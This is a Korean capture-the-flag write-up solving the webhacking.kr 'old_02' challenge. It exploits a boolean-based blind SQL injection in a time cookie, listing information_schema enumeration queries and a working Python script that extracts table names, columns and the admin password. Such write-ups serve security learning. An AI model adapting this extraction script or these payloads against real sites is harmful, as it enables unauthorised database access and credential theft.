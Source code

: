 ## old_02

![vmware_WWvlGzR1z0](https://user-images.githubusercontent.com/79683414/142334224-11fd6d90-215e-422f-9b0b-0a02034d3036.png)

```html
<!--
2021-11-18 10:26:21
-->
<h2>Restricted area</h2>Hello stranger. Your IP is logging...
<!-- if you access admin.php i will kick your ass -->
```

<br>

<br>

_admin.php_

![vmware_SBpAYYz30J](https://user-images.githubusercontent.com/79683414/142334451-d13ff3bb-ebfc-421a-9eba-bc0358d126f8.png)



<br>

admin.php 에서는 POST 로 패스워드를 보내는 형식이다. 스크립트 태그와 SQL 인젝션을 테스트 했지만 취약점이 확인되지 않았다.

처음엔 아무렇지 않게 넘겼지만, Redirected area에 수상한 점이 있다.

접속한 시간대가 표시되고 있다.

<br>

![vmware_ZLUwU7DfDd](https://user-images.githubusercontent.com/79683414/142334941-8c6bb4d1-c434-47b4-9493-8da4c185a2d3.png)

<br>

Burpsuite 로 패킷을 분석해보았다.

<br>

![vmware_m5widKW9CY](https://user-images.githubusercontent.com/79683414/142335166-a812960d-df6c-41a7-9975-c532639f68ac.png)

<br>

현재 시간을 받아와서 어떤 변환을 거쳐 Cookie: time 값으로 세팅되는 듯 한데,

어떤 식으로 동작하는지, Repeater를 이용해 여러 값을 테스트했다.

<br>

![vmware_hfrQtFlNnP](https://user-images.githubusercontent.com/79683414/142336093-e53e7160-8eef-44fb-a43c-95a01a4987d4.png)

![vmware_lKW7RKOAOi](https://user-images.githubusercontent.com/79683414/142336050-528f0e7c-8315-4013-978a-bd1050550a0f.png)

![vmware_gisBhzKPZy](https://user-images.githubusercontent.com/79683414/142336211-91c42e43-2ee4-412b-8186-889c18a6eebf.png)

![vmware_XGn6C0sYXv](https://user-images.githubusercontent.com/79683414/142336229-2a33661d-e121-466b-be21-8fc172802dea.png)<br>

time=0 인 경우, 값이 다시 세팅되 버린다.

1, 2, 123 을 대입했을 때의 결과를 보면, 정수값을 '분/초' 로 변환하고 있다는 것을 알 수 있다.

여기도 스크립트나 SQL 을 테스트 해 보자.

<br>

![vmware_DrmXgJiXex](https://user-images.githubusercontent.com/79683414/142337192-43a362bb-a3fe-48e2-9ed1-4e2a0fbe8b4d.png)

![vmware_wYjdCNgcBe](https://user-images.githubusercontent.com/79683414/142338611-9c710c54-3da8-432d-a881-c87498f61378.png)
![vmware_IAVe1qM20n](https://user-images.githubusercontent.com/79683414/142338614-74f2cb7a-c51b-4dc5-babb-551d9f841c92.png)

<br>

추측해보면, time 의 값이 참이면 해당되는 정수값을 시간으로 변환하여 출력하는 듯 하다. 따라서, Boolean-Based SQL Injection 이 가능하다.

<br>

information_schema 를 이용하여 `개수 > 길이 > 이름` 순으로 데이터를 추출했다.

SQL 문은 `( )` 로 감싸주지 않으면 의도한 결과를 출력하지 않는다.

1. 테이블 개수 : select count(table_name) from information_schema.tables where table_schema=database()

2. 테이블 이름 길이 : select length(table_name) from information_schema.tables where table_schema=database() limit 0,1

3.테이블 이름: select ascii(substring(table_name, 1, 1)) from information_schema.tables where table_schema=database() limit 0,1

<br>

![vmware_5tpZLzuthy](https://user-images.githubusercontent.com/79683414/142339222-9cabb5fa-5167-4f84-94ad-dd4914ebe8ef.png)

사용중인 Database에는 2개의 테이블이 있고,

<br>

![vmware_mH7o1ECqiZ](https://user-images.githubusercontent.com/79683414/142340121-83993c15-2bbe-46b6-8d2d-882fd119ef5d.png)

첫 번째 테이블명의 길이는 13 이다.

<br>

![vmware_8f6TRx7oYT](https://user-images.githubusercontent.com/79683414/142340324-bfdc7379-3423-487c-9cb0-f206250443b5.png)

<br>

substring 을 이용해 문자 하나를 추출하고, 참인 정수값만 그대로 출력되기 때문에

ascii()를 이용한다. substring은 limit 와 다르게 index가 0 부터 시작한다.

나머지 과정은 아래와 같다.

<br>

- 컬럼 개수 : select count(column_name) from information_schema.columns where table_name="admin_area_pw"

- 컬럼 이름 길이: select length(column_name) from information_schema.columns where table_name="admin_area_pw" limit 0,1

- 컬럼 이름 : select ascii(substring(column_name, 1, 1)) from information_schema.columns where table_name="admin_area_pw" limit 0,1



_패스워드_

- select count(pw) from admin_area_pw

- select length(pw) from admin_area_pw limit 0,1

- select ascii(substring(pw, 1,1)) from admin_area_pw limit 0,1

<br>

이를 파이썬 코드로 자동화 해봤다.

<details>
    <summary>Python Code</summary>

```python
import urllib.request

sid = ""	# 세션 ID 값
cookie = "time=({});PHPSESSID=" + sid
pre = {
    "count": "select count({}) from {} where {}",
    "len": "select length({}) from {} where {} limit {},1",
    "data": "select ascii(substring({}, 1)) from {} where {} limit {},1"
}


# 쿼리문 수행
def inject(query):
    url = "https://webhacking.kr/challenge/web-02/"
    req = urllib.request.Request(url)
    req.add_header("Cookie", cookie.format(query))
    res = urllib.request.urlopen(req)
    read = str(res.read().decode("utf-8")).split()
    time = list(map(lambda x: int(x), read[2].split(":")))
    return (60 * time[1]) + time[2]


# 데이터 개수 -> 각 데이터 길이 -> 한 글자씩 데이터 추출
def get_data(column, table, where):
    result = {}
    query = pre["count"].format(column, table, where)
    cnt = inject(query)
    print(query)
    print(cnt)
    if cnt > 20:
        return "Unavailable"
    for i in range(cnt):
        data = ""
        query = pre["len"].format(column, table, where, i)
        length = inject(query)
        print(query)
        print(length)
        # limit은 첫 인덱스가 0, substirng 은 1부터 시작이다...
        for j in range(1, length+1):
            query = pre["data"].format(column + "," + str(j), table, where, i)
            data += chr(inject(query))
            print(query)
            print(data)
        if where == "true":
            return data
        result[data] = {}
    return result


def get_tables():
    tables = get_data("table_name", "information_schema.tables", "table_schema=database()")
    for table in tables.keys():
        tables[table] = get_data("column_name", "information_schema.columns", "table_name=\"{}\"".format(table))
    return tables


def start_injection():
    tables = get_tables()
    print("[tables]")
    print(tables)
    for table in tables.keys():
        for col in tables[table]:
            data = get_data(col, table, "true")
            tables[table][col] = data
    print(tables)


if __name__ == "__main__":
    start_injection()

```

<br>

![pycharm64_mwTBEejV4T](https://user-images.githubusercontent.com/79683414/142340964-65bbf262-0948-4690-b756-83480feecb13.png)

</details>

